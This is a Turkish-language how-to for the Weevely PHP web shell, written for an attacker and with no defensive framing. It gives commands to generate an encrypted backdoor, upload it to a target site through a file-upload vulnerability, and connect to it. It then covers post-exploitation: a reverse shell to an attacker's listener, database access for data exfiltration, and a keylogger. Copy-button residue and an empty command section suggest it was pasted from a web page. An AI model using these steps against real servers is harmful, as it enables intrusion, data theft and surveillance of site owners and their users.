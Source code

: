Weevely Nedir?
Weevely, Python tabanlı bir PHP web shell ve post-exploitation aracıdır. Hafif, gizli ve şifrelenmiş bir arka kapı (backdoor) sağlayarak, saldırganın web sunucusu üzerinde uzaktan komut çalıştırmasını ve çeşitli saldırılar gerçekleştirmesini mümkün kılar.
Weevely, özellikle bir web sitesinde dosya yükleme açığı bulunması durumunda saldırganın bir web shell yükleyerek sunucu kontrolü elde etmesine yardımcı olur.

📌 Weevely'nin Özellikleri
✔ Şifreli ve gizli PHP Web Shell (Trafik şifrelenir ve tespit edilmesi zordur)
✔ Post-Exploitation Araçları içerir (dosya yöneticisi, veritabanı yönetimi, ters bağlantı vb.)
✔ Gizli ve Kompakt (PHP shell boyutu yaklaşık 1 KB)
✔ Sunucuda Python veya Bash ihtiyacı yok (Çünkü PHP ile çalışır)
✔ Ekstra Modüllerle Genişletilebilir

📌 Weevely Nasıl Kullanılır?
1️⃣ Weevely Kurulumu
Weevely genellikle Kali Linux’ta önceden kurulu gelir, ancak yoksa aşağıdaki komutla yüklenebilir:
bash
git clone https://github.com/epinna/weevely3.git
cd weevely3
pip install -r requirements.txt


2️⃣ PHP Web Shell (Backdoor) Oluşturma
Hedef sisteme yüklenecek PHP dosyasını oluşturmak için:
bash
weevely generate ŞİFRE shell.php
📌 Örnek:
bash
weevely generate mysecretpass shell.php

Bu komut şifrelenmiş bir PHP dosyası (shell.php) oluşturur.

3️⃣ PHP Shell'i Hedef Web Sitesine Yükleme
Shell.php dosyasını hedef siteye yükleyebileceğin bir dosya yükleme açığı bulunmalıdır.
Yüklendikten sonra, shell’in bulunduğu URL’yi belirlemelisin:
arduino
KopyalaDüzenle
https://target.com/uploads/shell.php


4️⃣ Weevely ile Web Shell'e Bağlanma
Şimdi oluşturulan backdoor’a bağlanabiliriz:
bash
KopyalaDüzenle
weevely https://target.com/uploads/shell.php mysecretpass

Eğer başarılı olursa, Weevely interaktif bir shell başlatır ve komutları çalıştırabilirsin.






📌 Weevely Kullanım Komutları
🔹 Temel Komutlar:

📌 Weevely ile Post-Exploitation (İleri Seviye Kullanım)
🔹 Ters Bağlantı (Reverse Shell) Alma:
bash
:backdoor\_reversetcp IP PORT
Bunun için önce netcat veya Metasploit ile dinleme yapılmalıdır:
bash
nc -lvnp PORT
🔹 Veritabanı Bağlantısı Kurma:
bash
:db\_connect "mysql://username:password@localhost/database"
Bu, veritabanına doğrudan bağlanarak veri sızdırmaya olanak tanır.
🔹 Keylogger Çalıştırma:
bash
:keylog\_start